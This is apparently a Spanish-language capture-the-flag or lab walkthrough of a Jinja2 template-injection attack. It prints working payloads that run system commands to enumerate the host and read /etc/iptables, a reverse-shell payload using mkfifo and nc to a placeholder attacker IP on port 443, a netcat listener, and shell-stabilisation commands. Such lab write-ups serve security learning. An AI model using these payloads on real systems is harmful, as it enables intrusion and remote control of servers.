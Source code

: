 > [Payloads All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/)

la siguiente linea puede ser usada para obtener mas información de la maquina de la victima:

`{{config.__class__.__init__.__globals__['os'].popen('echo ""; id; whoami; echo ""; which nc bash curl wget; echo ""; sestatus 2>&1; aa-status 2>&1; echo ""; cat /etc/*-release; echo""; cat /etc/iptables/*').read()}}`

Con lo actual obtenemos la siguiente información:
- estamos en la cuenta www-data con pocos privilegios
- Tenemos suficiente software útil para realizar fácilmente solicitudes web y crear un shell inverso 
- SeLinux no está instalado. AppArmour si lo esta, y no tenemos permiso para ver el estado, por lo que tendremos que ir a ciegas y esperar que no lo este.
- Esta es una máquina Ubuntu 20.04, 
- Hay un firewall en su lugar (como se esperaba). Bloquea todo el tráfico saliente a cualquier cosa que no sean los puertos TCP 443, 445, 80, 25 o 53 y el puerto UDP 53. 
- Se permiten los paquetes ICMP salientes. No hay reglas de IPv6.

Por lo tanto con esta información se inyectara el siguiente payload para crear una `reverse shell`

`{{config.__class__.__init__.__globals__['os'].popen('mkfifo /tmp/ZTQ0Y; nc <IP-ATACANTE> 443 0</tmp/ZTQ0Y | /bin/sh >/tmp/ZTQ0Y 2>&1; rm /tmp/ZTQ0Y').read()}}`

Pero antes es necesario crear un proceso en escucha con netcat:

> `sudo netcat -lvnp 443`

Luego que la conexión fue establecida es importante ahora estabilizar el *reverse tcp*, esto puede ser realizado con python. (Tambien es recomendable realizar la room de [Introducción a la Shell](https://tryhackme.com/room/introtoshells) en TryhackMe)

Primero es necesario verificar la existencia del modulo de python en la maquina
> `which python python3`

Si existe entonces podemos usar el siguiente comando para estabilizar el *reverse tcp*
> `python3 -c 'import pty;pty.spawn("/bin/bash")'`

También es necesario: 
- Establecer la variable de entorno TERM `export TERM=xterm`

Todo esto lo que hace es remover el echo de la shell de la maquina atacante, por lo tanto comandos como Ctrl + C y Crtl + Z pueden ser usados ahora sin interrumpir la conexión (Solo se mandaría a segundo plano). 

Por otro lado también se puede controlar el tamaño de la Shell remota, debido a que es normal que en un inicio no se encuentre alineado a nuestra terminal.

Correr en la terminal de la maquina atacante y guardar los valores de **rows** y **columns**
> `stty -a`

Deshabilitar el echo del terminal y devolver el shell remoto al primer plano.
> `stty raw -echo; fg`

Establecer el tamaño de tty
> `stty rows <VALUE> cols <VALUE>`

A partir de Ahora iniciaría la fase de **Escalación de privilegios**
